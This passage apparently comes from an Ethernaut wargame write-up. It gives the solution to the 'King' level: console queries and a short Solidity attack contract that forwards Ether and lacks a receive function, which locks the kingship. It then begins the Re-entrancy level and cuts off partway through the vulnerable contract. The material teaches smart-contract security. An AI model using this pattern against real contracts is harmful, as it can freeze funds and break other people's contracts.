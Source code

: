 Before we look into that, let's see who is currently king: `await contract._king()`
shows us that `0xDed9f3474fe5f075Ed7953f36a493928b1BD9f31` is king.
And let's see how much we have to send in order to become king:
`await contract.prize().then(v => v.toString())` shows us `1000000000000000` Wei.

Alright, let's get to work. 

It is actually rather simple. See the following attack contract:

```solidity
pragma solidity ^0.8.0;

contract KingSlayer {

    function attack(address _contract) public payable {
        (bool sent, ) = _contract.call{value: msg.value}("");
        require(sent, "Failed to send value!");
    }
}
```

Deploy the contract, send a transaction to the `attack()` function with the address of the King contract and the amount of Ether you want to send. The King contract will now receive the Ether and you will become the new king.

If someone else will try to become the king, they will send the Ether and the 
King contract is going to transfer the Ether to our contract. But since our
contract has no fallback or receive function, the transaction will fail and
we will remain the king.

Our contract has to use the `call` function to send the Ether, because the
`transfer` and `send` function would fail in this case, due to the gas limit
of 2300 gas. The receive function of the King contract requires more gas.

### Learning
Look always from the perspective of a Smart Contract. Can another smart contract
break my contract, by not having some functions implemented? 
And since December 2019 - use `call` instead of `transfer` or `send` to send
Ether.

## Level 10: Re-entrancy <a name="level-10-re-entrancy"></a>

The one, the legendary, the whole grail of attacks - at least based on the history involved
where this attack has been used.

Let's have a look at the contract first:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

```